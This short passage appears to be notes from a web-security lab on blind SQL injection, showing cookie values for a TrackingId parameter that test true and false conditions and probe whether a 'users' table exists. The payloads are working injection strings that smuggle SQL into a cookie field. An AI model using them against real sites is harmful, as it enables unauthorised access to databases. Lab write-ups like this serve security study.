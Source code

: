 **Modify the CheckingID cookie to confirm the vulnerability**
*TrackingId=xyz' AND '1'='1* and *TrackingId=xyz' AND '1'='2* to see if there is a different respone
**Confirming that there is a table called *users***
*TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a*